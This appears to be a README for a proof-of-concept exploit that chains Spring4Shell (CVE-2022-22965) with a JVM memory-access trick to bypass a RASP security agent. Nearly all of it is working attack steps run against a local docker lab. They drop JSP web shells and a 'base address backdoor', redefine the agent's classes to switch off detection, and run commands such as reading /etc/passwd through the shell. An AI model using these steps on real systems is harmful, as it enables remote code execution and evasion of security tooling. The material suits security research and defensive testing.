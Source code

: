 This is a PoC where we abuse memory access through unsafe to bypass RASP. The idea is to read the base address of the libjvm and then either read also the symbol or predefine it for a known 
global variable and navigate the memory space until we reach the InstrumentationImpl object representing the agent itself and redefine classes and thus bypass RASP.

We do it step by step to avoid being detected (it looks like when the request parameter exceeds a certain treshold, we get blocked by the agent):
1. mvn clean package
2. cd ..
3. docker build . -t cve-2022-22965-exploit -f bypassing-using-memory-abuse/Dockerfile
4. docker run -p 8080:8080 -p 8000:8000 cve-2022-22965-exploit
5. curl http://localhost:8080/exploit/greeting
6. python3 -m pip install -r requirements.txt 
7. Finally deploy your exploit that should have been blocked normally:
   `   python3 exploit-memory-abuse-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="exploit" and trigger curl "http://localhost:8080/exploit.jsp?cmd=cat%20/etc/passwd".
   `
![blocked.png](blocked.png)
8. Now deploy jvm base address backdoor: 
`   python3 exploit-memory-abuse-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="base", now you can get the base address using curl "http://localhost:8080/base.jsp" -> baseAddress`
![base.png](base.png)
9. Next deploy Redefine_Transformer_Manager jsp that will trigger redefining the transformerManager bytecode:
`    python3 exploit-memory-abuse-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="redefineTransformer", you should the base address provided using the first step and issue  curl "http://localhost:8080/redefineTransformer.jsp?cmd={baseAddress e.g 139963791860840}” 
`
![redefineTransformerManager.png](redefineTransformerManager.png)
10. Ok now deploy RedefineProcessBuilder using 
`  python3 exploit-memory-abuse-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="redefineProcessBuilder" and trigger the redefinition: curl "http://localhost:8080/redefineProcessBuilder.jsp?cmd={baseAddress}”
`
11. Rerun and Enjoy the bypass:
    `curl "http://localhost:8080/exploit.jsp?cmd=cat%20/etc/passwd" `
You may need to update the base address of JvmtiEnvBase::_head_environment, first ssh in the container, find / -name libjvm.so 2>/dev/null, and finally gdb /usr/local/openjdk-11/lib/server/libjvm.so + info variables and then you have it
`0x0000000000f59750  JvmtiEnvBase::_head_environment`
